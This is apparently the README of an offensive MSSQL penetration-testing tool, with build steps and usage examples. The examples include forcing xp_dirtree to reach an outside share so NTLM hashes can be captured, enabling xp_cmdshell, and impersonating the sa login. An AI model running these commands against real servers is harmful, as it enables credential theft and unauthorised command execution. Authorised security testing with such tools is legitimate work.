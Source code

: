 # MSSQL Security Assessment Tool

A cross-platform, fully-featured offensive security utility that streamlines enumeration, exploitation, and post-exploitation of Microsoft SQL Server environments.

## Key Features

• **Deep Enumeration** – Quickly map out servers, databases, tables, users, roles, and permissions.
• **Privilege Escalation Work-flows** – Identify and exploit mis-configurations (e.g., `EXECUTE AS`, impersonation, role chaining).
• **Credential Hunting** – Automatically search for credential artefacts, hashes, connection strings, and secrets.
• **Command / Payload Execution** – One-click helpers for `xp_cmdshell`, OLE Automation, `xp_dirtree`, and linked-server abuse.
• **Session Logging & Reporting** – Generates HTML & JSON reports, structured data exports, and timeline logs for every assessment.
• **Self-Contained Builds** – Single-file executables for Windows & Linux via the provided `build.sh` helper.

## Requirements

* .NET 6 SDK *(Linux, macOS, or Windows)*
* Network access to the target SQL Server instance

> The tool relies on `System.Data.SqlClient` (included via NuGet) and **does not** require any third-party binaries.

## Quick Start

```bash
#–– Clone & build (Linux example)
$ git clone https://github.com/your-org/MSSQL-Tool.git
$ cd MSSQL-Tool/MSSQL
$ ./build.sh linux-x64           # produces bin/publish-linux-x64/MSSQL

#–– Or run directly with dotnet
$ dotnet run --project MSSQL.csproj -- --server dc01.corp1.com --action enum --log
```

## Usage Examples

```bash
# Quick enumeration with logging
MSSQL --server dc01.corp1.com --action enum --log

# Execute arbitrary query
MSSQL --server dc01.corp1.com --action query --sql "SELECT SYSTEM_USER;"

# Trigger xp_dirtree to capture NTLM
MSSQL --server dc01.corp1.com --action dirtree --share "\\\\192.168.49.67\\share"

# Enable & execute xp_cmdshell
MSSQL --server dc01.corp1.com --action xp_cmd --cmd "whoami"

# Impersonate sa
MSSQL --server dc01.corp1.com --action impersonate_login --target sa
```

Use `--help` or run the program without arguments to display the full interactive menu.

## Building Self-Contained Binaries

The helper script wraps `dotnet publish` to create a **single-file, self-contained** executable.

```bash
# Windows x64 EXE (default)
./build.sh

# Windows x86
./build.sh win-x86

# Linux x64
./build.sh linux-x64
```

Resulting binaries are written to `bin/publish-<RID>/`.

## Project Structure

```
MSSQL/
├── Program.cs                # Main source (enumeration & attack logic)
├── MSSQL.csproj              # .NET project file (targets net6.0)
├── build.sh                  # Cross-platform single-file build helper
├── additional_features.md    # Roadmap & nice-to-have ideas
└── ...                       # Reports & session artifacts (git-ignored)
```

## Disclaimer

This software is provided **for educational and authorized penetration-testing purposes only**. The authors assume **no liability** for misuse or damage caused by this tool. Ensure you have **explicit written permission** before targeting any system.

## License

Distributed under the MIT License. See `LICENSE` for more information.